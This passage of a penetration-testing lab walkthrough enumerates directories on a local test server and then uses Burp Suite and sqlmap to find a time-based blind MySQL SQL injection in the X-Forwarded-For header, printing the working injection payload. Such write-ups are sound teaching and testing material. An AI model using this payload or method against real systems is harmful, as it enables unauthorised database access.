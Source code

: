 ```
---- Entering directory: http://192.168.23.132/admin/ ----
+ http://192.168.23.132/admin/index.php (CODE:302|SIZE:0)                     
==> DIRECTORY: http://192.168.23.132/admin/uploads/     
---- Entering directory: http://192.168.23.132/classes/ 
---- Entering directory: http://192.168.23.132/css/ ----
---- Entering directory: http://192.168.23.132/images/ ----
---- Entering directory: http://192.168.23.132/admin/uploads/ ----
-----------------
END_TIME: Thu Aug 22 15:41:25 2019
DOWNLOADED: 27672 - FOUND: 3
```

At this moment we see that there is a file upload functionallity avaiable only for authenticated admin user. There is also a login form that allows admin to login.

### Testing and Exploitation

Further testing will be handled on the http website running on port 80 tcp. Then the communication was intercepted with the usage of local web proxy Burp Suite. This is how main page looks like.

![MAIN](../master/static/sqli_main.jpg)

![login](../master/static/sqli_login.jpg)

Initially, all the paremeters and body seems to be not vulnerable. However, some of the application stores (in a database) the HTTP headers like User-Agent, Referer, X-Forwarded-For or Cookie to indetify and track the users. To test for SQL injection the following request has been supplied to sqlmap.

```
GET /cat.php?id=* HTTP/1.1
Host: 192.168.23.132
User-Agent: *
Referer: *
X-Forwarded-For: *
Cookie: *
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```
Sqlmap detected the blind timebased SQL injection on the backend there is MySQL running. To confirm the following payload could be send in **X-Forwarded For** header.

```
---
Parameter: X-Forwarded-For #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ‘ AND (SELECT 8808 FROM (SELECT(SLEEP(5)))QLYW) AND ‘hIUq’=’hIUq
---
```
